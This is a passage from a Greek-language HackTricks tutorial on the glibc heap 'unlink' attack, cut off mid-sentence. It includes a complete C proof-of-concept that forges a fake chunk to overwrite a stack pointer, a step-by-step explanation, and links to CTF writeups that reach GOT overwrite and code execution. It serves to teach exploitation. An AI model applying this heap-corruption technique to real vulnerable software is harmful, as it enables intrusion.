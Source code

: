 # Επίθεση Unlink

<details>

<summary><strong>Μάθετε το χάκινγκ στο AWS από το μηδέν μέχρι τον ήρωα με το</strong> <a href="https://training.hacktricks.xyz/courses/arte"><strong>htARTE (HackTricks AWS Red Team Expert)</strong></a><strong>!</strong></summary>

Άλλοι τρόποι υποστήριξης του HackTricks:

* Αν θέλετε να δείτε την **εταιρεία σας διαφημισμένη στο HackTricks** ή να **κατεβάσετε το HackTricks σε μορφή PDF** ελέγξτε τα [**ΣΧΕΔΙΑ ΣΥΝΔΡΟΜΗΣ**](https://github.com/sponsors/carlospolop)!
* Αποκτήστε το [**επίσημο PEASS & HackTricks swag**](https://peass.creator-spring.com)
* Ανακαλύψτε [**την Οικογένεια PEASS**](https://opensea.io/collection/the-peass-family), τη συλλογή μας από αποκλειστικά [**NFTs**](https://opensea.io/collection/the-peass-family)
* **Εγγραφείτε στη** 💬 [**ομάδα Discord**](https://discord.gg/hRep4RUj7f) ή στην [**ομάδα τηλεγραφήματος**](https://t.me/peass) ή **ακολουθήστε** μας στο **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Μοιραστείτε τα χάκινγκ κόλπα σας υποβάλλοντας PRs στα** [**HackTricks**](https://github.com/carlospolop/hacktricks) και [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) αποθετήρια του github.

</details>

## Βασικές Πληροφορίες

Όταν ανακαλύφθηκε αυτή η επίθεση, κυρίως επέτρεπε ένα WWW (Write What Where), ωστόσο, κάποιοι **έλεγχοι προστέθηκαν** καθιστώντας τη νέα έκδοση της επίθεσης πιο ενδιαφέρουσα και πιο πολύπλοκη και **άχρηστη**.

### Παράδειγμα Κώδικα:

<details>

<summary>Κώδικας</summary>
```c
#include <unistd.h>
#include <stdlib.h>
#include <string.h>
#include <stdio.h>

// Altered from https://github.com/DhavalKapil/heap-exploitation/tree/d778318b6a14edad18b20421f5a06fa1a6e6920e/assets/files/unlink_exploit.c to make it work

struct chunk_structure {
size_t prev_size;
size_t size;
struct chunk_structure *fd;
struct chunk_structure *bk;
char buf[10];               // padding
};

int main() {
unsigned long long *chunk1, *chunk2;
struct chunk_structure *fake_chunk, *chunk2_hdr;
char data[20];

// First grab two chunks (non fast)
chunk1 = malloc(0x8000);
chunk2 = malloc(0x8000);
printf("Stack pointer to chunk1: %p\n", &chunk1);
printf("Chunk1: %p\n", chunk1);
printf("Chunk2: %p\n", chunk2);

// Assuming attacker has control over chunk1's contents
// Overflow the heap, override chunk2's header

// First forge a fake chunk starting at chunk1
// Need to setup fd and bk pointers to pass the unlink security check
fake_chunk = (struct chunk_structure *)chunk1;
fake_chunk->size = 0x8000;
fake_chunk->fd = (struct chunk_structure *)(&chunk1 - 3); // Ensures P->fd->bk == P
fake_chunk->bk = (struct chunk_structure *)(&chunk1 - 2); // Ensures P->bk->fd == P

// Next modify the header of chunk2 to pass all security checks
chunk2_hdr = (struct chunk_structure *)(chunk2 - 2);
chunk2_hdr->prev_size = 0x8000;  // chunk1's data region size
chunk2_hdr->size &= ~1;        // Unsetting prev_in_use bit

// Now, when chunk2 is freed, attacker's fake chunk is 'unlinked'
// This results in chunk1 pointer pointing to chunk1 - 3
// i.e. chunk1[3] now contains chunk1 itself.
// We then make chunk1 point to some victim's data
free(chunk2);
printf("Chunk1: %p\n", chunk1);
printf("Chunk1[3]: %x\n", chunk1[3]);

chunk1[3] = (unsigned long long)data;

strcpy(data, "Victim's data");

// Overwrite victim's data using chunk1
chunk1[0] = 0x002164656b636168LL;

printf("%s\n", data);

return 0;
}

```
</details>

* Η επίθεση δεν λειτουργεί εάν χρησιμοποιούνται τα tcaches (μετά την έκδοση 2.26)

### Στόχος

Αυτή η επίθεση επιτρέπει να **αλλάξει ένα δείκτη ενός κομματιού ώστε να δείχνει 3 διευθύνσεις πριν από τον εαυτό του**. Εάν αυτή η νέα τοποθεσία (γύρω από το σημείο όπου βρισκόταν ο δείκτης) έχει ενδιαφέροντα πράγματα, όπως άλλες ελέγξιμες δεσμεύσεις / στοίβα..., είναι δυνατόν να διαβάσετε/αντικαταστήσετε αυτά για να προκαλέσετε μεγαλύτερη ζημιά.

* Εάν αυτός ο δείκτης βρισκόταν στη στοίβα, επειδή τώρα δείχνει 3 διευθύνσεις πριν από τον εαυτό του και ο χρήστης πιθανόν μπορεί να το διαβάσει και να το τροποποιήσει, θα είναι δυνατόν να διαρρεύσει ευαίσθητες πληροφορίες από τη στοίβα ή ακόμη και να τροποποιήσει τη διεύθυνση επιστροφής (ίσως) χωρίς να αγγίξει το canary
* Σε παραδείγματα CTF, αυτός ο δείκτης βρίσκεται σε έναν πίνακα δεικτών προς άλλες δεσμεύσεις, επομένως, καθιστώντας τον να δείχνει 3 διευθύνσεις πριν και να είναι δυνατόν να τον διαβάσετε και να τον γράψετε, είναι δυνατόν να κάνετε τους άλλους δείκτες να δείχνουν σε άλλες διευθύνσεις.\
Καθώς πιθανόν ο χρήστης μπορεί να διαβάσει/γράψει επίσης τις άλλες δεσμεύσεις, μπορεί να διαρρεύσει πληροφορίες ή να αντικαταστήσει νέα διεύθυνση σε αυθαίρετες τοποθεσίες (όπως στο GOT).

### Απαιτήσεις

* Κάποιος έλεγχος σε μνήμη (π.χ. στοίβα) για να δημιουργήσει μερικά κομμάτια δίνοντας τιμές σε μερικά από τα χαρακτηριστικά.
* Διαρροή στη στοίβα για να ορίσει τους δείκτες του ψεύτικου κομματιού.

### Επίθεση

* Υπάρχουν μερικά κομμάτια (chunk1 και chunk2)
* Ο επιτιθέμενος ελέγχει το περιεχόμενο του chunk1 και τους κεφαλίδες του chunk2.
* Στο chunk1 ο επιτιθέμενος δημιουργεί τη δομή ενός ψεύτικου κομματιού:
* Για να παρακάμψει τις προστασίες, βεβαιώνεται ότι το πεδίο `size` είναι σωστό για να αποφευχθεί το σφάλμα: `corrupted size vs. prev_size while consolidating`
* και τα πεδία `fd` και `bk` του ψεύτικου κομματιού δείχνουν εκεί όπου αποθηκεύεται ο δείκτης του chunk1 με μετατοπίσεις -3 και -2 αντίστοιχα, έτσι ώστε `fake_chunk->fd->bk` και `fake_chunk->bk->fd` να δείχνουν στη θέση στη μνήμη (στοίβα) όπου βρίσκεται η πραγματική διεύθυνση του chunk1:

<figure><img src="../../.gitbook/assets/image (1245).png" alt=""><figcaption><p><a href="https://heap-exploitation.dhavalkapil.com/attacks/unlink_exploit">https://heap-exploitation.dhavalkapil.com/attacks/unlink_exploit</a></p></figcaption></figure>

* Οι κεφαλίδες του chunk2 τροποποιούνται για να υποδεικνύουν ότι το προηγούμενο κομμάτι δεν χρησιμοποιείται και ότι το μέγεθος είναι το μέγεθος του ψεύτικου κομματιού που περιέχεται.
* Όταν απελευθερώνεται το δεύτερο κομμάτι τότε συμβαίνει η αποσύνδεση αυτού του ψεύτικου κομματιού:
* `fake_chunk->fd->bk` = `fake_chunk->bk`
* `fake_chunk->bk->fd` = `fake_chunk->fd`
* Προηγουμένως έγινε ώστε `fake_chunk->fd->bk` και `fake_chunk->bk->fd` να δείχνουν στον ίδιο τόπο (τη θέση στη στοίβα όπου αποθηκευόταν το `chunk1`, έτσι ήταν μια έγκυρη συνδεδεμένη λίστα). Καθώς **και τα δύο δείχνουν στην ίδια τοποθεσία**, μόνο το τελευταίο (`fake_chunk->bk->fd = fake_chunk->fd`) θα έχει **επίδραση**.
* Αυτό θα **αντικαταστήσει τον δείκτη στο chunk1 στη στοίβα με τη διεύθυνση (ή bytes) που αποθηκεύεται 3 διευθύνσεις πριν στη στοίβα**.
* Επομένως, εάν ένας επιτιθέμενος μπορούσε να ελέγχει ξανά το περιεχόμενο του chunk1, θα μπορούσε να **γράψει μέσα στη στοίβα** είναι δυνατόν να αντικαταστήσει δυνητικά τη διεύθυνση επιστροφής παρακάμπτοντας το canary και να τροποποιήσει τις τιμές και τους δείκτες των τοπικών μεταβλητών. Ακόμη, τροποποιώντας ξανά τη διεύθυνση του chunk1 που αποθηκεύεται στη στοίβα σε μια διαφορετική τοποθεσία όπου εάν ο επιτιθέμενος μπορούσε να ελέγχει ξανά το περιεχόμενο του chunk1 θα μπορούσε να γράψει οπουδήποτε.
* Να σημειωθεί ότι αυτό ήταν δυνατό επειδή οι **διευθύνσεις αποθηκεύονταν στη στοίβα**. Ο κίνδυνος και η εκμετάλλευση μπορεί να εξαρτώνται από το **πού αποθηκεύονται οι διευθύνσεις προς το ψεύτικο κομμάτι**.

<figure><img src="../../.gitbook/assets/image (1246).png" alt=""><figcaption><p><a href="https://heap-exploitation.dhavalkapil.com/attacks/unlink_exploit">https://heap-exploitation.dhavalkapil.com/attacks/unlink_exploit</a></p></figcaption></figure>

## Αναφορές

* [https://heap-exploitation.dhavalkapil.com/attacks/unlink\_exploit](https://heap-exploitation.dhavalkapil.com/attacks/unlink\_exploit)
* Αν και θα ήταν περίεργο να βρείτε μια επίθεση unlink ακόμη και σε ένα CTF, εδώ έχετε μερικά writeups όπου χρησιμοποιήθηκε αυτή η επίθεση:
* Παράδειγμα CTF: [https://guyinatuxedo.github.io/30-unlink/hitcon14\_stkof/index.html](https://guyinatuxedo.github.io/30-unlink/hitcon14\_stkof/index.html)
* Σε αυτό το παράδειγμα, αντί για τη στοίβα υπάρχει ένας πίνακας από διευθύνσεις που έχουν δεσμευτεί με τη μέθοδο malloc. Η επίθεση unlink πραγματοποιείται για να είναι δυνατή η δέσμευση ενός κομματιού εδώ, επομένως είναι δυνατόν να ελέγχει τους δείκτες του πίνακα από τις διευθύνσεις που έχουν δεσμευτεί με τη μέθοδο malloc. Στη συνέχεια, υπάρχει μια άλλη λειτουργικότητα που επιτρέπει την τροποποίηση του περιεχομένου των κομματιών σε αυτές τις διευθύνσεις, η οποία επιτρέπει να δείχνουν οι διευθύνσεις στο GOT, να τροποποιούνται οι διευθύνσεις συναρτήσεων για να λάβουν διαρροές libc και RCE.
* Άλλο παράδειγμα CTF: [https://guyinatuxedo.github.io/30-unlink/zctf16\_note2/index.html](https://guyinatuxedo.github.io/30-unlink/zctf16\_note2/index.html)
* Όπως και στο προηγούμενο παράδειγμα, υπάρχει ένας πίνακας διευθύνσεων δεσμεύσεων. Είναι δυνατόν να πραγματοποιηθεί μια επίθεση unlink για να κάνει η διεύθυνση της πρώτης δέσμευσης να δείχνει λίγες θέσεις πριν από την έναρξη του πίνακα και να αντ
